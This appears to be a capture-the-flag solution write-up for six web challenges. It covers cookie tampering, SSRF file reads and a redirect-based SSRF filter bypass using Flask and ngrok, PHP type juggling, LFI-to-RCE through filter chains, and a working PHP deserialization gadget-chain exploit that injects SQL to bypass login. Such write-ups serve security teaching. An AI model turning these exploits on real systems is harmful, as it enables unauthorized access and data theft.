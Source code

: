 # Brief Solution

## web01
- Change cookies of `notadmin` to `admin`

## web02
### Installation 🧑🏻‍💻
1. `composer require mpdf/mpdf`

### Step 🍿
Basically, this is just SSRF vulnerability. You can read any file by using `file://` protocol. Sure you can use other method, feel free to study new thing.
1. put this URL on searchbar `file:///var/www/html/flag.php`

## web03
1. Base 64 decode 2 times the cookie value.
2. Change the type to admin and encode again.
3. Exploit the type strcmp loose comparison  by changing password to password[] and get the flag.
## web04
1. user click on About and redirected to page.php?show=about.php
2. show parameter is vulnerable to local file inclusion
3. gain rce via [PHP filters](https://github.com/synacktiv/php_filter_chain_generator)
## web05
### Installation 🧑🏻‍💻
1. `docker-compose up -d`

### Step 🍿
This vulnerability is just the same as web02, but with little bit of filter. This system "generally" check given url:
- is an ip address
- does not request localhost directly
- has valid public url
- and does not have DNS rebinding attack (donno if my filter method works)
So basically we can bypass the filter using URL redirect(302). The idea is we will give valid and public domain, but the domain will redirect it back to localhost 😯.

***There are 3 methods you can use***
1. You can use URL shorterner and points it to `http://127.0.0.1:8081/flag` (only certains works)
2. You can use public domain for localhost testing `http://localtest.me:8081/flag`
3. Or more painfull but it good to understand how it works. 
  - Code below will redirect to `http://127.0.0.1:8081/flag`
```py
from flask import Flask,redirect

app = Flask(__name__)

@app.route("/")
def hello():
	return redirect("http://127.0.0.1:8081/flag")
```
  - spawn python server: `flask run --host=0.0.0.0 --port=1111`
  - spawn ngrok: `ngrok http 1111`
  - paste the url such as https://2025-2001-f40-933-46f6-ac06-5fb6-3208-9d5c.ap.ngrok.io/

## web06

The system passed user's input to `unserialize()` function without sanitization. User can control deserialize method to modify variable in classes to bypass login authentication. Thus, participant needs to create gadget chain( `ManageCookie{}`, `Auth{}`, `DBController{}` ) to control SQL statement in order to bypass auth.
### Step 🍿
1. run the code below.
```php
<?php

class DBController { }

class Auth {
    public $getTokenByUsernameQuery;
    protected $db_handle;

    function __construct() {
        $current_time = time();
        $cookie_expiration_time = $current_time + (30 * 24 * 60 * 60); // for 1 month
        $expiry_date = date("Y-m-d H:i:s", $cookie_expiration_time);

        $password_hash = password_hash("takKisahApaPun", PASSWORD_DEFAULT);
        $selector_hash = password_hash("tulatu", PASSWORD_DEFAULT);

        $this->getTokenByUsernameQuery = "SELECT ? as username, ? as is_expired, '{$password_hash}' as password_hash, '{$selector_hash}' as selector_hash, '{$expiry_date}' as expiry_date, 12 as id";
        $this->db_handle = new DBController();
    }
}

class ManageCookie {
    public $member_login = "ADMIN";
    public $random_password = "takKisahApaPun";
    public $random_selector = "tulatu";
    protected $auth;

    function __construct() {
        $this->auth = new Auth();
    }
}

$p = new ManageCookie();
$p = urlencode(base64_encode(serialize($p)));
echo $p;
```
2. Set "remember_user" cookie and refresh.

